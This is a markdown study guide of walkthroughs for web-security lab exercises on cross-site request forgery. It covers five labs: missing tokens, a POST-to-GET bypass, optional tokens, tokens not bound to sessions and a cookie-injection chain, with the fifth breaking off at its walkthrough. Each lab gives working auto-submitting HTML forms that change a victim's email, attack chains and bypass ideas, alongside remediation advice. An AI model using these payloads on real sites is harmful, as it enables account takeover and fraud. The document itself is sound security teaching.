# 🐞 Lab-1 — CSRF → Change Email (No CSRF Token)

---

## 🧠 🔥 Overview (Full Theory + Insight)

This lab demonstrates a critical **CSRF (Cross-Site Request Forgery)** vulnerability where an attacker forces a logged-in user to change their email without consent.

---

Normally, secure applications include anti-CSRF protections like tokens.

---

However, in this lab:

The application relies **only on cookies for authentication** and does NOT validate request origin.

---

👉 This allows an attacker to forge a request that the server fully trusts.

---

## 🧠 🟦 Core Idea

If a request depends only on cookies → it can be forged from another site

---

## 🧠 🟥 Key Exploit

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>
```

---

👉 Forces victim browser to send authenticated request

---

## 🔍 🧠 What Is This Topic?

### 🔹 CSRF (Cross-Site Request Forgery)

Tricking a user’s browser into sending a request that performs an action on their behalf

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

### 🧩 Step 1 — Login

```
Username: wiener
Password: peter
```

---

### 🧩 Step 2 — Perform Action Normally

Go to:

```
My Account → Change Email
```

---

Submit any email

---

### 🧩 Step 3 — Capture Request

```
POST /my-account/change-email

email=test@abc.com
Cookie: session=xyz
```

---



---

### 🧠 Key Observation

```
No CSRF token present
Only cookie used for authentication
Email parameter is predictable
```

---

👉 Vulnerability confirmed

---

### 🧩 Step 4 — Analyze Behavior

```
Cookie is automatically sent by browser
Server trusts request without validation
```

---

👉 No origin verification

---

### 🧩 Step 5 — Create CSRF Payload

```
<html>
<body>

<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>

</body>
</html>
```

---

### 🧩 Step 6 — Deliver Exploit

```
Host payload on attacker-controlled page
```

---

### 🧩 Step 7 — Victim Loads Page

```
Browser auto-submits request
Cookie automatically attached
```

---

👉 Email gets changed

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 Form

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
```

---

Targets vulnerable endpoint

---

### 🔹 Hidden Input

```
<input type="hidden" name="email" value="attacker@evil.com">
```

---

Injects attacker-controlled data

---

### 🔹 Auto Submit Script

```
<script>
document.forms[0].submit();
</script>
```

---

Executes request without user interaction

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Change Email

```
Attacker changes victim email
→ Password reset
→ Account takeover
```

---

### 🔥 Scenario 2 — Change Password

```
If no old password required
→ Direct takeover
```

---

### 🔥 Scenario 3 — Add Payment Method

```
Victim adds attacker-controlled card
```

---

### 🔥 Scenario 4 — Transfer Funds

```
Banking actions executed silently
```

---

### 🔥 Scenario 5 — Delete Data

```
Permanent loss of user data
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Identify sensitive endpoint  
2️⃣ Check for CSRF token  
3️⃣ Confirm cookie-based auth  
4️⃣ Create malicious form  
5️⃣ Auto-submit request  
6️⃣ Victim visits attacker page  
7️⃣ Action executed as victim  

---

## 🎯 High-Value Endpoints

---

### 🔹 Account Actions

```
/my-account/change-email
/my-account/change-password
```

---

### 🔹 Financial Actions

```
/transfer
/add-payment-method
```

---

### 🔹 APIs

```
/api/update-profile
```

---

### 🔹 Admin Actions

```
/admin/delete-user
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ CSRF Token Present

👉 Attack fails

---

### ❌ SameSite Cookies

👉 Cookies not sent

---

### ❌ Origin / Referer Check

👉 Request blocked

---

### ❌ Custom Headers Required

👉 Cannot send via HTML

---

### ✅ Bypass Ideas

```
Find unprotected endpoints
Exploit weak token validation
Use GET-based CSRF
Combine with XSS
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

Authentication relies only on cookies

---

### ✅ Fix 1 — Implement CSRF Tokens

```
Add unique token per request
```

---

### ✅ Fix 2 — Validate Server-Side

```
Reject missing or invalid tokens
```

---

### ✅ Fix 3 — Use SameSite Cookies

```
SameSite=Strict or Lax
```

---

### ✅ Fix 4 — Check Origin / Referer

```
Allow only same-site requests
```

---

### ✅ Fix 5 — Re-authentication

```
Require password for sensitive actions
```

---

### ✅ Fix 6 — Use Custom Headers

```
Only same-origin JS can send them
```

---

## 🧠 🟪 Mental Model

---

CSRF = abusing trust in browser  

Cookies = automatic authentication  

No token = no protection  

---

Attacker cannot read response  
But can force actions  

---

## 🎯 🧠 Final Summary

---

✔ Works when:
- User is logged in  
- Only cookies used  
- No CSRF token  

---

✔ Attack method:

```
Create form → auto-submit → victim loads → request sent
```

---

✔ Result:

Action executed as victim  

---

## 🔥 Final One-Liner

---

CSRF = forcing trusted actions through the victim’s browser

---

# 🐞 Lab-2 — CSRF → POST to GET Bypass (Email Change)

---

## 🧠 🔥 Overview (Full Theory + Insight)

This lab demonstrates a **CSRF bypass** where protection exists but is improperly enforced.

---

Normally:

CSRF tokens protect sensitive actions.

---

However, in this lab:

The server validates CSRF **only for POST requests** and ignores it for GET.

---

👉 This creates a bypass where attacker can switch method and remove token.

---

## 🧠 🟦 Core Idea

If CSRF is enforced only on POST → switching to GET bypasses protection

---

## 🧠 🟥 Key Exploit

```
GET /my-account/change-email?email=attacker@evil.com
```

---

👉 No CSRF token required → request succeeds

---

## 🔍 🧠 What Is This Topic?

### 🔹 CSRF Method Bypass

A flaw where CSRF validation depends on HTTP method instead of enforcing protection universally

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

### 🧩 Step 1 — Capture POST Request

```
POST /my-account/change-email HTTP/1.1
Content-Type: application/x-www-form-urlencoded

email=test@x.com&csrf=RANDOM_TOKEN
```

---



---

### 🧠 Observation

```
CSRF token is present
```

---

### 🧩 Step 2 — Test CSRF Validation

Modify token:

```
email=test@x.com&csrf=INVALID
```

---

👉 Result:

```
Invalid CSRF token
```

---



---

### 🧠 Conclusion

```
CSRF protection exists (for POST)
```

---

### 🧩 Step 3 — Change POST → GET

```
GET /my-account/change-email?email=test@x.com&csrf=RANDOM_TOKEN
```

---

Remove request body completely

---

### 🧩 Step 4 — Observe Behavior

```
GET /my-account/change-email?email=test@x.com
```

---

👉 Result:

✔ Request succeeds  
✔ CSRF token ignored  

---



---

### 🧠 Vulnerability Confirmed

```
CSRF validation is bypassed via GET method
```

---

### 🧩 Step 5 — Build CSRF Exploit

```
<form action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>

<script>
document.forms[0].submit();
</script>
```

---

### 🧩 Step 6 — Deliver Exploit

```
Host on exploit server
Victim loads page
```

---

👉 Browser sends GET request automatically

---

### 🧩 Step 7 — Result

```
Email changed without CSRF validation
```

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 GET Request

```
/my-account/change-email?email=attacker@evil.com
```

---

### 🔹 Form

```
<form action="https://LAB-ID.web-security-academy.net/my-account/change-email">
```

---

### 🔹 Hidden Input

```
<input type="hidden" name="email" value="attacker@evil.com">
```

---

### 🔹 Auto Submit

```
<script>
document.forms[0].submit();
</script>
```

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Banking Apps

```
POST protected
GET unprotected → money transfer
```

---

### 🔥 Scenario 2 — Account Takeover

```
Change email via GET
→ reset password
```

---

### 🔥 Scenario 3 — Admin Panels

```
POST protected
GET adds admin user
```

---

### 🔥 Scenario 4 — API Misconfig

```
Same endpoint supports GET + POST
Only POST validated
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Capture request  
2️⃣ Identify CSRF token  
3️⃣ Test invalid token  
4️⃣ Switch POST → GET  
5️⃣ Remove CSRF token  
6️⃣ Confirm bypass  
7️⃣ Build exploit page  
8️⃣ Deliver to victim  
9️⃣ Action executed  

---

## 🎯 High-Value Endpoints

---

### 🔹 Account Actions

```
/my-account/change-email
/change-password
```

---

### 🔹 Financial

```
/transfer-money
```

---

### 🔹 Admin

```
/add-admin
```

---

### 🔹 APIs

```
/api/update-profile
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ GET Not Supported

👉 No bypass possible

---

### ❌ CSRF Validated on All Methods

👉 Attack fails

---

### ❌ SameSite Cookies

👉 Cookies blocked

---

### ❌ Origin / Referer Check

👉 Request rejected

---

### ✅ Bypass Ideas

```
Try alternate HTTP methods
Check hidden GET endpoints
Look for inconsistent validation
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

CSRF validation applied only to POST

---

### ✅ Fix 1 — Enforce CSRF on ALL Methods

```
Validate token for GET + POST + others
```

---

### ✅ Fix 2 — Disallow State Change via GET

```
GET should be read-only
```

---

### ✅ Fix 3 — Validate Origin / Referer

```
Reject cross-site requests
```

---

### ✅ Fix 4 — Use SameSite Cookies

```
SameSite=Strict
```

---

### ✅ Fix 5 — Re-authentication

```
Require password for sensitive changes
```

---

## 🧠 🟪 Mental Model

---

POST = protected  

GET = often forgotten  

---

If one method is weak → entire protection fails  

---

## 🎯 🧠 Final Summary

---

✔ CSRF token exists but is incomplete  

✔ Switching method bypasses protection  

✔ GET request executes without validation  

---

## 🔥 Final One-Liner

---

CSRF protection on POST only = instant bypass via GET

---

# 🐞 Lab-3 — CSRF → Missing Token Validation (Email Change)

---

## 🧠 🔥 Overview (Full Theory + Insight)

This lab demonstrates a flawed CSRF implementation where the server partially validates tokens.

---

Normally:

A CSRF token must be **present AND valid**.

---

However, in this lab:

The server validates the token **only if it exists**, but does NOT require it.

---

👉 This allows attackers to bypass protection by removing the token entirely.

---

## 🧠 🟦 Core Idea

If CSRF token is optional → protection is broken

---

## 🧠 🟥 Key Exploit

```
POST /my-account/change-email

email=attacker@evil.com
```

---

👉 No CSRF token → request still succeeds

---

## 🔍 🧠 What Is This Topic?

### 🔹 Missing CSRF Token Validation

A vulnerability where server checks token validity but fails to enforce its presence

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

### 🧩 Step 1 — Capture Request

```
POST /my-account/change-email
Content-Type: application/x-www-form-urlencoded

email=test@abc.com&csrf=RANDOM_TOKEN
```

---

### 🧩 Step 2 — Test Token Validation

Modify token:

```
email=test@abc.com&csrf=INVALID
```

---

👉 Result:

```
Invalid CSRF token
```

---

### 🧧 Step 3 — Remove CSRF Token Completely

```
POST /my-account/change-email

email=test@abc.com
```

---

👉 Result:

✔ Request accepted  
✔ Email successfully changed  

---



---

### 🧠 Vulnerability Confirmed

```
Server does NOT enforce presence of CSRF token
```

---

### 🧩 Step 4 — Build CSRF Exploit

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.net">
</form>

<script>
document.forms[0].submit();
</script>
```

---

### 🧩 Step 5 — Deliver Exploit

```
Host payload on exploit server
Victim loads page
```

---

👉 Browser sends authenticated request automatically

---

### 🧩 Step 6 — Result

```
Email changed without CSRF token
```

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 Request

```
POST /my-account/change-email

email=attacker@evil.net
```

---

### 🔹 Form

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
```

---

### 🔹 Hidden Input

```
<input type="hidden" name="email" value="attacker@evil.net">
```

---

### 🔹 Auto Submit

```
<script>
document.forms[0].submit();
</script>
```

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Account Takeover

```
Change email → reset password → full control
```

---

### 🔥 Scenario 2 — Banking Actions

```
Transfer funds without CSRF validation
```

---

### 🔥 Scenario 3 — Admin Privilege Abuse

```
Add attacker as admin
```

---

### 🔥 Scenario 4 — Broken Security Logic

```
Developer validates token but forgets to enforce presence
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Capture request  
2️⃣ Modify CSRF token → rejected  
3️⃣ Remove CSRF token → accepted  
4️⃣ Confirm vulnerability  
5️⃣ Build exploit page  
6️⃣ Host payload  
7️⃣ Victim loads page  
8️⃣ Browser sends request  
9️⃣ Action executed  

---

## 🎯 High-Value Endpoints

---

### 🔹 Account

```
/change-email
/change-password
```

---

### 🔹 Financial

```
/transfer-money
```

---

### 🔹 Admin

```
/add-admin
```

---

### 🔹 Profile

```
/update-profile
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ Strict Token Enforcement

👉 Attack fails

---

### ❌ SameSite Cookies

👉 Cookies blocked

---

### ❌ Origin / Referer Check

👉 Request rejected

---

### ❌ Custom Headers Required

👉 Cannot be forged via HTML

---

### ✅ Bypass Ideas

```
Find endpoints with missing token enforcement
Check APIs separately
Test optional parameters
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

Token validation exists but token is not required

---

### ✅ Fix 1 — Require CSRF Token

```
Reject request if token is missing
```

---

### ✅ Fix 2 — Strict Validation

```
Token must match session
```

---

### ✅ Fix 3 — SameSite Cookies

```
SameSite=Strict
```

---

### ✅ Fix 4 — Validate Origin / Referer

```
Allow only same-site requests
```

---

### ✅ Fix 5 — Use Security Frameworks

```
Implement proper CSRF middleware
```

---

## 🧠 🟪 Mental Model

---

Invalid token = blocked  

Missing token = allowed ❌  

---

This = broken protection  

---

## 🎯 🧠 Final Summary

---

✔ Token validation exists but incomplete  

✔ Removing token bypasses protection  

✔ Server trusts request without verification  

---

## 🔥 Final One-Liner

---

Optional CSRF token = no CSRF protection

---

# 🐞 Lab-4 — CSRF → Token Not Session-Bound

---

## 🔥 Overview (Full Theory + Insight)

This lab demonstrates a CSRF vulnerability where tokens exist but are **not tied to user sessions**.

---

Normally:

A CSRF token must be:

✔ Unique per user  
✔ Bound to session  
✔ Verified strictly  

---

However, in this lab:

Tokens are valid **across different users**

---

👉 This allows attackers to reuse their own token to perform actions on victim accounts.

---

## 🧠 🟦 Core Idea

If CSRF token is reusable across users → protection is broken

---

## 🧠 🟥 Key Exploit

```
csrf=ATTACKER_TOKEN
```

---

👉 Works for any logged-in user session

---

## 🔍 🧠 What Is This Topic?

### 🔹 CSRF Token Not Bound to Session

A flaw where CSRF tokens are globally valid instead of user-specific

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

### 🧩 Step 1 — Capture Request (User 1)

Login:

```
wiener : peter
```

---

Captured request:

```
POST /my-account/change-email

email=test@test.com
csrf=TOKEN_A
```

---



---

### 🧠 Observation

```
Valid CSRF token exists
```

---

### 🧩 Step 2 — Test with Another User (User 2)

Login:

```
carlos : montoya
```

---

Send same request with reused token:

```
POST /my-account/change-email

email=test@test.com
csrf=TOKEN_A
```

---



---

### 🧠 Result

✔ Request accepted  
✔ Token from user1 works for user2  

---

### 🧩 Step 3 — Confirm Vulnerability

```
CSRF token is NOT session-bound
```

---

👉 Any valid token works globally

---

### 🧩 Step 4 — Build CSRF Exploit

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="csrf" value="TOKEN_A">
</form>

<script>
document.forms[0].submit();
</script>
```

---



---

### 🧩 Step 5 — Deliver Exploit

```
Host on exploit server
Send to victim
```

---

👉 Victim browser:

✔ Sends session cookie  
✔ Includes attacker token  
✔ Request accepted  

---

### 🧩 Step 6 — Result

```
Email changed using reused CSRF token
```

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 CSRF Token

```
csrf=TOKEN_A
```

---

### 🔹 Form

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
```

---

### 🔹 Hidden Inputs

```
<input type="hidden" name="email" value="attacker@evil.com">
<input type="hidden" name="csrf" value="TOKEN_A">
```

---

### 🔹 Auto Submit

```
<script>
document.forms[0].submit();
</script>
```

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Account Takeover

```
Reuse token → change email → reset password
```

---

### 🔥 Scenario 2 — Banking Systems

```
Reuse token → transfer funds
```

---

### 🔥 Scenario 3 — Admin Abuse

```
Reuse token → escalate privileges
```

---

### 🔥 Scenario 4 — SaaS Platforms

```
Token shared across users → full compromise
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Login as attacker  
2️⃣ Capture valid CSRF token  
3️⃣ Switch to victim session  
4️⃣ Reuse token  
5️⃣ Confirm request works  
6️⃣ Build exploit page  
7️⃣ Deliver to victim  
8️⃣ Browser sends request  
9️⃣ Action executed  

---

## 🎯 High-Value Endpoints

---

### 🔹 Account

```
/change-email
/change-password
```

---

### 🔹 Financial

```
/transfer-money
```

---

### 🔹 Admin

```
/add-admin
```

---

### 🔹 Profile

```
/update-profile
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ Token Bound to Session

👉 Attack fails

---

### ❌ Token Regenerated Per Request

👉 Reuse fails

---

### ❌ SameSite Cookies

👉 Cookies blocked

---

### ❌ Origin Check

👉 Request rejected

---

### ✅ Bypass Ideas

```
Steal token via XSS
Find global tokens
Test token reuse across roles
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

CSRF tokens are not bound to user sessions

---

### ✅ Fix 1 — Bind Token to Session

```
Each token must belong to one session only
```

---

### ✅ Fix 2 — Regenerate Tokens

```
New login → new token
```

---

### ✅ Fix 3 — Strict Validation

```
Verify token matches session
Reject reused tokens
```

---

### ✅ Fix 4 — SameSite Cookies

```
SameSite=Strict
```

---

### ✅ Fix 5 — Origin / Referer Validation

```
Allow only same-site requests
```

---

## 🧠 🟪 Mental Model

---

Token exists ≠ secure  

---

Token must be:

✔ unique  
✔ session-bound  
✔ validated  

---

Otherwise → reusable = broken  

---

## 🎯 🧠 Final Summary

---

✔ CSRF token exists but improperly implemented  

✔ Token reused across users  

✔ Server fails to verify ownership  

---

## 🔥 Final One-Liner

---

Global CSRF token = anyone can act as anyone

---

# 🐞 Lab-5 — CSRF → Token Tied to Non-Session Cookie (Cookie Injection Chain)

---

## 🔥 Overview (Full Theory + Insight)

This lab demonstrates an advanced CSRF bypass where protection is incorrectly implemented using a **non-session cookie (`csrfKey`)**.

---

Normally:

CSRF tokens must be tied to the user session.

---

However, in this lab:

✔ CSRF token is tied to a cookie (`csrfKey`)  
❌ That cookie is NOT tied to session  

---

Additionally:

The application is vulnerable to **header injection**, allowing attackers to set cookies in victim browsers.

---

👉 By chaining both flaws:

✔ Attacker injects their own `csrfKey`  
✔ Sends matching CSRF token  
✔ Server accepts request  

---

## 🧠 🟦 Core Idea

If attacker controls CSRF validation inputs → protection is bypassed

---

## 🧠 🟥 Key Exploit

```
Set-Cookie: csrfKey=ATTACKER_VALUE
```

---

👉 Combined with:

```
csrf=ATTACKER_VALUE
```

---

## 🔍 🧠 What Is This Topic?

### 🔹 CSRF Token Bound to Non-Session Cookie

A flawed design where CSRF validation depends on a cookie not tied to the user session

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

